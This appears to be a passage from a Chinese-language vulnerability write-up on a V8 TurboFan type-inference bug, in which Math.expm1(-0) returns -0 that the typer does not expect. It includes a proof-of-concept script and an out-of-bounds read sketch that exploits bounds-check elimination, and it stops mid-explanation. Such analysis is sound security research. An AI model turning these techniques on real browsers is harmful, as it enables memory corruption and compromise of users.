 ```cpp
  V(MinusZeroOrNaN,               kMinusZero | kNaN) \
  // ....................  //
```

可以看出-0，NaN都是比较特别的，而 `Type::PlainNumber() U Type::NaN()`并为包含-0，但是MathExpm1实际在运行的时候的的确确会返回-0：

```cpp
V8 version 7.0.290
d8> Object.is(Math.expm1(-0),-0);
true
d8> 
```

这导致turbofan对Math.expm1的返回类型判读出错，而该出错会继续影响到后续的优化阶段

### poc

```javascript
function foo() {
  return Object.is(Math.expm1(-0), -0);
}

console.log(foo());
%OptimizeFunctionOnNextCall(foo);
console.log(foo());
```

存在漏洞的版本会输出：

```cpp
true
false
```

在优化后，返回了错误的结果

### exploit

根据https://bugs.chromium.org/p/chromium/issues/detail?id=762874 issue里的手法，就是利用turbofan对数组范围的预测错误从而消除checkbounds节点来造成越界读写，比如：

```javascript
function foo(x){
    var a = [0.1,0.2,0.3];   // a.length = 3
    var idx = Object.is(Math.expm1(-0), -0); // turbofan : false , really true
    										// turbofan : range(0,0) , really range(1,1)
    return a[idx * 1337];	// turbofan 认为idx*1337为0，小于数组a的长度，所以不需要checkbounds节点，
    						// 而实际运行时该值会是1337，从而导致越界读
}
```

大概就是这么个意思

回到漏洞，在turbofan执行的过程中，有3个阶段都会对节点的类型进行推断，分别是typer，load elimination和simplified lowering这3个阶段，而且两个阶段还会进行常量折叠，如果在前两个阶段Object.is的结果被标记为false，那Object.is节点就会被简单的替换成一个false的常量节点，这样就无法进行后续的利用，这点可以在turbolizer中看到：
